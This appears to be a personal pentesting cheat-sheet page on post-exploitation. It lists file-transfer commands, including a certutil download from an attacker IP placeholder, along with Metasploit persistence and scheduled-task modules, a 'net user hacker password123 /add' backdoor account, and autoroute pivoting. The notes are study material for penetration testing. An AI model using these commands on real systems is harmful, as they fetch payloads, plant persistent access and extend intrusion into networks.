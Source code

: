 ```yaml
---
layout: default
title: Post Exploitation
nav_order: 2
has_children: false
parent: Pentesting
grand_parent: DylanGrl Writings
---
```


## Post Exploitation

### File Transfers 

Hosting a file using python and a web server: 

```bash
python -m SimpleHTTPSServer 80
```

Hosting a file using python and a ftp server: 

```bash
python -m pyftpdlib 21
```


Downloading on Windows using Certutil

```powershell
certutil.exe --urlcache -f http://<ip>/<file> file.ext
```

On Linux:
```bash
wget <ip>
```


Downloading from ftp: 
```vash
ftp <IP>
```


Using metasploit with meterpreter shell facilitate the download / upload of file. 

### Mantaining access

#### Persistence script

Very dangerous as it leave a port open on the machine. 

```sh
run persistence --h
exploit/windows/local/persistence
exploit/windows/local/registry_persistence
```

#### Scheduled Task

```sh
run scheduleme
run schtaskabuse
```

#### Adding a user
```powershell
net user hacker password123 /add
```

### Pivoting

#### Using Metasploit

From an existing metasploit shell session. 

We first check the existing route on the machine: 
```bash
route print
```

Or the ARP with:
```bash
arp -a
```

Then from meterpreter session (after quiting the shell on the machine):
```bash
run autoroute -s <ip>/<subnet>
run autoroute -p #To verify the new route
```

Now we scan do scanning and other action against the subnet.


